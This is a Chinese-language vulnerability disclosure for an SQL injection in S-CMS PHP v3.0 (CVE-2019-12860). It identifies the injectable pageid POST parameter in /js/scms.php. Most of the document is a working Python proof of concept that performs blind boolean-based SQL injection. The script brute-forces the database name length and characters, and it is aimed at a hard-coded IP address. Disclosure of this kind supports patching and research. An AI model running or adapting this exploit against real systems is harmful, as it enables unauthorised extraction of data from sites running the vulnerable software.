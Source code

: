 ### 漏洞简介 

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|S-CMS-PHP-v3.0存在SQL注入漏洞|2019-05-31|zhhhy|[https://www.s-cms.cn/download.html?code=php](https://www.s-cms.cn/download.html?code=php) | [https://www.s-cms.cn/download.html?code=php](https://www.s-cms.cn/download.html?code=php) |PHP v3.0| [CVE-2019-12860](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-12860)|  

#### 漏洞概述 

> 漏洞代码位置：/js/scms.php 第182-204行,在第83行处，变量$pageid接受使用POST方式传递的pageid的值。而在第87行和第95行处，变量$pageid被直接拼接进SQL语句之中，从而产生注入。而由于是数字型注入，避免使用单引号等符号以至于绕过了防御。 

### POC实现代码如下： 

> 构造如下poc.py 

``` python
import requests
import urllib.parse

chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz_0123456789'

url='http://106.14.144.32:2000/js/scms.php'

def getDatabaseLength():
    print('开始爆破数据库长度。。。')
    for i in range(10):
        payload="1%0Aand%0Aif(length(database())>{},1,0)#".format(i)
        payload=urllib.parse.unquote(payload)
        data = {
            'action':'jssdk',
            'pagetype':'text',
            'pageid':payload
        }
        # print(data)
        # data = urllib.parse.unquote(data)
        # print(data)
        rs = requests.post(url=url,data=data)
        rs.encode='utf-8'
        # print(rs.text)
        if "20151019102732946.jpg" not in rs.text:
            print("数据库名的长度为：{}".format(i))
            return i

def getDatabaseName():
    print('开始获取数据库名')
    databasename = ''

    length = getDatabaseLength()
    # length = 4
    for i in range(1,length+1):
        for c in chars:
            payload='1%0Aand%0Aif(ascii(substr(database(),{},1))={},1,0)#'.format(i,ord(c))
            # print(payload)
            payload = urllib.parse.unquote(payload)
            data = {
                'action': 'jssdk',
                'pagetype': 'text',
                'pageid': payload
            }
            rs = requests.post(url=url, data=data)
            rs.encode = 'utf-8'
            # print(rs.text)
            if "20151019102732946.jpg" in rs.text:
                databasename = databasename+c
                print(databasename)

    return databasename
getDatabaseName() 
```